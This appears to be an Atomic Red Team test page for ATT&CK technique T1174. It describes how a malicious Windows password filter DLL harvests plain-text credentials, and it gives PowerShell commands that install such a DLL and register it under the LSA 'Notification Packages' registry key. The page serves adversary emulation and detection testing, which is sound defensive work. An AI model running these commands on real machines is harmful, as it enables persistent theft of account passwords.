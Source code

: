 # T1174 - Password Filter DLL
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1174)
<blockquote>Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as dynamic link libraries (DLLs) containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts.

Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests validation from each registered filter. Any potential changes cannot take effect until every registered filter acknowledges validation.

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains. To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter would receive these plain-text credentials every time a password request is made. (Citation: Carnal Ownage Password Filters Sept 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)


<br/>

## Atomic Test #1 - Install and Register Password Filter DLL
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_dll | Path to DLL to be installed and registered | Path | PathToAtomicsFolder&#92;T1174&#92;src&#92;AtomicPasswordFilter.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$passwordFilterName = (Copy-Item "#{input_dll}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
Restart-Computer -Confirm
```



#### Dependencies:  Run with `powershell`!
##### Description: AtomicPasswordFilter.dll must exist on disk at specified location (#{input_dll})
##### Check Prereq Commands:
```
if (Test-Path #{input_dll}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```
Write-Host "You must provide your own password filter dll"
```




<br/>
